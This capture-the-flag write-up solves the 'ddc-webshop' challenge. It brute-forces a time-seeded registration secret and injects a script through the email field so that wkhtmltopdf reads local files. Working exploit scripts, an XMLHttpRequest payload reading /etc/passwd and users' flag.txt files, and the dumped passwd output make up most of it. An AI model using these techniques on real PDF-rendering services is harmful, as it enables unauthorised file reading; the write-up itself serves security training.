

# ddc-webshop

Proposed difficulty: `Something`

6 solves

```text
Grundet stor efterspørgsel har vi i år valgt at lave en DDC webshop! Her kan du købe nice merchandise, VIP-biletter til DDC finalen, privat lektiehjælp af Jens Myrup og meget meget mere!

HINT: Flaget findes i /home/???/flag.txt
```

Attachments:

```text
Archive:  challenge.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
     6357  2023-12-16 12:07   app.py
---------                     -------
     6357                     1 file
```

# Solution

## Registering a user

To register our user, we will need to know the registration secret.

The registration secret is generated when the server starts with the following code:

```py
datetime = int(time.time())
rseed = random.seed(datetime)
register_secret = ''.join(f'{byte:02x}' for byte in bytes(random.randint(0, 255) for _ in range(16)))
```

I wrote a small python script to try each random seed from a given datetime, until it finds the right registration secret:

```py
import requests
import random
import time

start = int(time.time()) - 50
end = start + 100

URL = "http://ddcwebshop.hkn/signup?"

def gen_secret(i):
    random.seed(i)
    return ''.join(f'{byte:02x}' for byte in bytes(random.randint(0, 255) for _ in range(16)))

for i in range(start, end):
    secret = gen_secret(i)
    r = requests.post(
        URL,
        data={
            "username": "",
            "email": "",
            "password": "",
            "secret": secret
        }
    )

    if "Invalid secret" in r.text:
        continue

    print(r.text, secret)
```

In my case I got the following output:

`Invalid characters in username! Only a-z/A-Z is allowed! 2dfd84a7a55f913401ca3e9581857af1`

This is our register secret.

## Finding the goal

Let's create a user and look around:


After creating a user and logging in we are presented with a storefront that shows some stuff we can buy for quite a steep price I might add.

Let's place an order.

After we placed an order we get a pdf file. Let's look into how it is created in `app.py`:

```py
@app.route('/buy', methods=['POST'])
def buy():
    if request.method == 'POST':
        cart_data = ([request.form[x] for x in request.form])
        valid_cart = all(map(valid_number,cart_data))
        if not valid_cart:
            return 'Invalid characters or numbers detected in the cart! Behave!'

        output_pdf = f"/tmp/{session['username']}_receipt.pdf"
        output_html = f"/tmp/{session['username']}_receipt.html"
        html_receipt = render_template('receipt.html',
            cartProduct1=request.form['cartProduct1'],
            cartProduct2=request.form['cartProduct2'],
            cartProduct3=request.form['cartProduct3'],
            cartTotal=request.form['cartTotal'],
            username=session["username"],
            useremail=session["email"]
        )

        f = open(output_html,"w")
        f.write(html_receipt)
        f.close()

        subprocess.call(["wkhtmltopdf",output_html,output_pdf])

        f = open(output_pdf, "rb")
        pdf = f.read()

        response = make_response(pdf)
        response.headers.set('Content-Disposition', 'attachment', filename=session["username"] + '.pdf')
        response.headers.set('Content-Type', 'application/pdf')
        f.close()

        # Delete the temporary html/pdf file(s)
        subprocess.call(["rm",output_pdf])
        subprocess.call(["rm",output_html])

        return (response)
    else:
        return redirect('/error')
```

This does the following:

1. Creates an html file called `/tmp/{username}_receipt.html`.
2. Writes a response to it
   - The response is in the form of a jinja template that is given information about our order.
   - We do not have this template file, so we can only guess what it includes.
3. Then it runs `wkhtmltopdf /tmp/{username}_receipt.html /tmp/{username}_receipt.pdf`
4. The pdf file is returned as a response to the request.

I looked into `wkhtmltopdf` and this is their description:

> `wkhtmltopdf` and `wkhtmltoimage` are open source (LGPLv3) command line tools to render HTML into PDF and various image formats using the Qt WebKit rendering engine. These run entirely "headless" and do not require a display or display service.

It seems like we might be able to run javascript in the html when it gets rendered as a pdf. To do this we need some kind of XSS.

The PDF file includes the email we entered on signup. Let's look into how the email is sanitized:

```py
def valid_email(email):
    if not '@' in email:
        return False
    pattern = r'[A-Za-z0-9.-]+\.[A-Z|a-z]{2,7}\b'
    return bool(re.match(pattern, email.split('@')[1]))
```

Nothing before the `@` is validated. So we can just put whatever HTML we want into the email.

The goal seems to be to use XSS to read local files as the `wkhtmltopdf`'s headless browser runs in the `file:///` origin. Therefore we can make requests to other `file:///` URLs without being stopped by CORS.

We want to read the `/etc/passwd` file to dump all usernames, and then find the user that has the `flag.txt` in their home directory.

## Easier iteration

Right now the process is a bit complicated, as we need to register a new user for each iteration we test. Let's automate this:

```py
import requests
import random
from pwn import *

USERNAME_ALPHA = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"

BASE_URL = "http://ddcwebshop.hkn"
SECRET = "2dfd84a7a55f913401ca3e9581857af1"

payload = "We can put the payloads here"

username = "".join(random.choice(USERNAME_ALPHA) for _ in range(20))

s = requests.Session()

r = s.post(
    BASE_URL + "/signup",
    data={
        "username": username,
        "email": f"{payload}@test.net",
        "password": "abcdefghijklmno",
        "secret": SECRET
    }
)

try:
    r.raise_for_status()
except:
    log.warn("Failed to register user.")
    print(r.text)
    exit()

log.info(f"Username: {username}")

r = s.post(
    BASE_URL + "/login",
    data={
        "username": username,
        "password": "abcdefghijklmno"
    }
)

try:
    r.raise_for_status()
except:
    log.warn("Failed to login.")
    print(r.text)
    exit()

log.success("Logged in successfully.")

r = s.post(
    BASE_URL + "/buy",
    data={
        "cartProduct1": 0,
        "cartProduct2": 0,
        "cartProduct3": 0,
        "cartTotal": 0
    }
)

try:
    r.raise_for_status()
except:
    log.warn("Failed to buy.")
    print(r.text)
    exit()

with open(f'output.pdf', 'wb') as f:
    f.write(r.content)

log.success("Bought successfully.")
```

I can now iterate a lot faster by just changing the contents of the payload variable, and get a PDF in no time.

## Arbitrary file read

As previously stated, the `wkpdftohtml` tool runs in the `file:///` origin. This means that we can create requests to other `file:///` URLs without being stopped by CORS.

There are multiple ways we can try to achieve this, here are a few methods:

1. iframes
   - Ex. `<iframe src="file:///..."></iframe>`
   - I tried to do this at first, but could not get it to work
2. Javascript fetch
   - Ex. `<script>fetch('file:///').then(res => res.text()).then(body => document.write(body))`
   - Could not get this to work either
3. Javascript XMLHttpRequest
   - XHR supports both sync and async functionality.
   - I could not get it to work with the async functionality
   - In the end i got it working by using **synchronous XHR**.

The payload i ended up getting to work was:

```html
<script>
  x = new XMLHttpRequest();
  x.open('GET', 'file:///etc/passwd', false);
  x.send();
  document.write(x.responseText)
</script>
```

Minimized it looks like this:

`<script>x=new XMLHttpRequest;x.open('GET','file:///home/{i}/flag.txt',false);x.send();document.write(x.responseText)</script>`

By using this as our payload, we get the following output from the script:

```text
[*] Username: kKpYmxzInuEHcmQgSTMq
[+] Logged in successfully.
[+] Bought successfully.
```

The PDF had the following data:

<details>

<summary>/etc/passwd content</summary>

```text
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List
Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin show:x:1000:1000:,,,:/home/show:/bin/bash
us:x:1001:1001:,,,:/home/us:/bin/bash that:x:1002:1002:,,,:/home/that:/bin/bash
you:x:1003:1003:,,,:/home/you:/bin/bash can:x:1004:1004:,,,:/home/can:/bin/bash
exploit:x:1005:1005:,,,:/home/exploit:/bin/bash this:x:1006:1006:,,,:/home/this:/bin/bash
lfi:x:1007:1007:,,,:/home/lfi:/bin/bash franklin:x:1008:1008:,,,:/home/franklin:/bin/bash
lawson:x:1009:1009:,,,:/home/lawson:/bin/bash fields:x:1010:1010:,,,:/home/fields:/bin/bash
gutierrez:x:1011:1011:,,,:/home/gutierrez:/bin/bash ryan:x:1012:1012:,,,:/home/ryan:/bin/bash
schmidt:x:1013:1013:,,,:/home/schmidt:/bin/bash carr:x:1014:1014:,,,:/home/carr:/bin/bash
vasquez:x:1015:1015:,,,:/home/vasquez:/bin/bash castillo:x:1016:1016:,,,:/home/castillo:/bin/bash
wheeler:x:1017:1017:,,,:/home/wheeler:/bin/bash
chapman:x:1018:1018:,,,:/home/chapman:/bin/bash oliver:x:1019:1019:,,,:/home/oliver:/bin/bash
montgomery:x:1020:1020:,,,:/home/montgomery:/bin/bash
richards:x:1021:1021:,,,:/home/richards:/bin/bash
williamson:x:1022:1022:,,,:/home/williamson:/bin/bash
johnston:x:1023:1023:,,,:/home/johnston:/bin/bash banks:x:1024:1024:,,,:/home/banks:/bin/bash
meyer:x:1025:1025:,,,:/home/meyer:/bin/bash bishop:x:1026:1026:,,,:/home/bishop:/bin/bash
mccoy:x:1027:1027:,,,:/home/mccoy:/bin/bash howell:x:1028:1028:,,,:/home/howell:/bin/bash
alvarez:x:1029:1029:,,,:/home/alvarez:/bin/bash
morrison:x:1030:1030:,,,:/home/morrison:/bin/bash
hansen:x:1031:1031:,,,:/home/hansen:/bin/bash
fernandez:x:1032:1032:,,,:/home/fernandez:/bin/bash garza:x:1033:1033:,,,:/home/garza:/bin/bash
harvey:x:1034:1034:,,,:/home/harvey:/bin/bash little:x:1035:1035:,,,:/home/little:/bin/bash
burton:x:1036:1036:,,,:/home/burton:/bin/bash stanley:x:1037:1037:,,,:/home/stanley:/bin/bash
nguyen:x:1038:1038:,,,:/home/nguyen:/bin/bash george:x:1039:1039:,,,:/home/george:/bin/bash
jacobs:x:1040:1040:,,,:/home/jacobs:/bin/bash reid:x:1041:1041:,,,:/home/reid:/bin/bash
kim:x:1042:1042:,,,:/home/kim:/bin/bash fuller:x:1043:1043:,,,:/home/fuller:/bin/bash
lynch:x:1044:1044:,,,:/home/lynch:/bin/bash dean:x:1045:1045:,,,:/home/dean:/bin/bash
gilbert:x:1046:1046:,,,:/home/gilbert:/bin/bash garrett:x:1047:1047:,,,:/home/garrett:/bin/bash
romero:x:1048:1048:,,,:/home/romero:/bin/bash welch:x:1049:1049:,,,:/home/welch:/bin/bash
larson:x:1050:1050:,,,:/home/larson:/bin/bash frazier:x:1051:1051:,,,:/home/frazier:/bin/bash
burke:x:1052:1052:,,,:/home/burke:/bin/bash hanson:x:1053:1053:,,,:/home/hanson:/bin/bash
day:x:1054:1054:,,,:/home/day:/bin/bash mendoza:x:1055:1055:,,,:/home/mendoza:/bin/bash
moreno:x:1056:1056:,,,:/home/moreno:/bin/bash
bowman:x:1057:1057:,,,:/home/bowman:/bin/bash medina:x:1058:1058:,,,:/home/medina:/bin/bash
fowler:x:1059:1059:,,,:/home/fowler:/bin/bash brewer:x:1060:1060:,,,:/home/brewer:/bin/bash
hoffman:x:1061:1061:,,,:/home/hoffman:/bin/bash carlson:x:1062:1062:,,,:/home/carlson:/bin/bash
silva:x:1063:1063:,,,:/home/silva:/bin/bash pearson:x:1064:1064:,,,:/home/pearson:/bin/bash
holland:x:1065:1065:,,,:/home/holland:/bin/bash douglas:x:1066:1066:,,,:/home/douglas:/bin/bash
fleming:x:1067:1067:,,,:/home/fleming:/bin/bash jensen:x:1068:1068:,,,:/home/jensen:/bin/bash
webster:x:1069:1069:,,,:/home/webster:/bin/bash barnett:x:1070:1070:,,,:/home/barnett:/bin/bash
graves:x:1071:1071:,,,:/home/graves:/bin/bash jimenez:x:1072:1072:,,,:/home/jimenez:/bin/bash
horton:x:1073:1073:,,,:/home/horton:/bin/bash shelton:x:1074:1074:,,,:/home/shelton:/bin/bash
barrett:x:1075:1075:,,,:/home/barrett:/bin/bash obrien:x:1076:1076:,,,:/home/obrien:/bin/bash
castro:x:1077:1077:,,,:/home/castro:/bin/bash sutton:x:1078:1078:,,,:/home/sutton:/bin/bash
gregory:x:1079:1079:,,,:/home/gregory:/bin/bash
mckinney:x:1080:1080:,,,:/home/mckinney:/bin/bash lucas:x:1081:1081:,,,:/home/lucas:/bin/bash
miles:x:1082:1082:,,,:/home/miles:/bin/bash craig:x:1083:1083:,,,:/home/craig:/bin/bash
rodriquez:x:1084:1084:,,,:/home/rodriquez:/bin/bash
chambers:x:1085:1085:,,,:/home/chambers:/bin/bash holt:x:1086:1086:,,,:/home/holt:/bin/bash
lambert:x:1087:1087:,,,:/home/lambert:/bin/bash fletcher:x:1088:1088:,,,:/home/fletcher:/bin/bash
watts:x:1089:1089:,,,:/home/watts:/bin/bash bates:x:1090:1090:,,,:/home/bates:/bin/bash
rhodes:x:1091:1091:,,,:/home/rhodes:/bin/bash pena:x:1092:1092:,,,:/home/pena:/bin/bash
beck:x:1093:1093:,,,:/home/beck:/bin/bash newman:x:1094:1094:,,,:/home/newman:/bin/bash
```

</details>

Now we have a list of all the users on the system.

## Dumping users

Now that we have a list of all users on the system, we can start looking into finding the flag. The challenge description states that the flag can be found in `/home/???/flag.txt`.

We can repeat the process that we used for flag.txt for each user.

I used the following script to try to read `/home/{username}/flag.txt` for each user:

<details>

<summary>Solve script</summary>

```py

import requests
import random
from pwn import *

USERNAME_ALPHA = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"

BASE_URL = "http://ddcwebshop.hkn"
SECRET = "e06849be2ee197664500e34b457f2c89"

USERS = """us
you
exploit
lfi
lawson
gutierrez
schmidt
vasquez
wheeler
chapman
montgomery
richards
williamson
johnston
meyer
mccoy
alvarez
morrison
hansen
fernandez
harvey
burton
nguyen
jacobs
kim
lynch
gilbert
romero
larson
burke
day
moreno
bowman
fowler
hoffman
silva
holland
fleming
webster
graves
horton
barrett
castro
gregory
mckinney
miles
rodriquez
chambers
lambert
watts
rhodes
beck""".split("\n")

for i in USERS:
    log.info(f"Trying username: {i}")

    username = "".join(random.choice(USERNAME_ALPHA) for _ in range(20))

    s = requests.Session()

    payload = f"<script>x=new XMLHttpRequest;x.open('GET','file:///home/{i}/flag.txt',false);x.send();document.write(x.responseText)</script>"

    r = s.post(
        BASE_URL + "/signup",
        data={
            "username": username,
            "email": f"{payload}@test.net",
            "password": "abcdefghijklmno",
            "secret": SECRET
        }
    )

    try:
        r.raise_for_status()
    except:
        log.warn("Failed to register user.")
        print(r.text)
        exit()

    log.info(f"Username: {username}")

    r = s.post(
        BASE_URL + "/login",
        data={
            "username": username,
            "password": "abcdefghijklmno"
        }
    )

    try:
        r.raise_for_status()
    except:
        log.warn("Failed to login.")
        print(r.text)
        exit()

    log.success("Logged in successfully.")

    r = s.post(
        BASE_URL + "/buy",
        data={
            "cartProduct1": 0,
            "cartProduct2": 0,
            "cartProduct3": 0,
            "cartTotal": 0
        }
    )

    try:
        r.raise_for_status()
    except:
        log.warn("Failed to buy.")
        print(r.text)
        exit()

    with open(f'output/{i}.pdf', 'wb') as f:
        f.write(r.content)

    log.success("Bought successfully.")
```

</details>

The PDF generated for the user `gilbert` has the flag:



# Flag

`DDC{m4ster_0f_r4ndom_4nd_c0nqurer_0f_PDF}`
